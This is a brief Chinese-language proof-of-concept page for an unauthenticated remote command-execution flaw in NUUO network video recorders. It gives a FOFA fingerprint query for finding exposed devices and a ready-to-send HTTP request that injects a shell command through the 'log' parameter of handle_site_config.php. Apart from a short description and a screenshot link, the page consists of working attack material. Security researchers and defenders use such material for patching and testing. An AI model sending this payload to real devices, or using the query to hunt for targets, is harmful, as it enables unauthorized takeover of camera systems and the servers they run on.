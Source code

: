 # NUUO摄像机handle_site_config远程代码执行漏洞

NUUO摄像头是中国台湾NUUO公司旗下的一款网络视频记录器，NUUO摄像头handle_site_config.php存在未授权命令执行漏洞，攻击者可以获取服务器权限

## fofa

```javascript
body="www.nuuo.com/eHelpdesk.php"
```

## poc

```javascript
GET /handle_site_config.php?log=;id; HTTP/1.1
Host: 
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
```

![image-20250219154105386](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502191541564.png)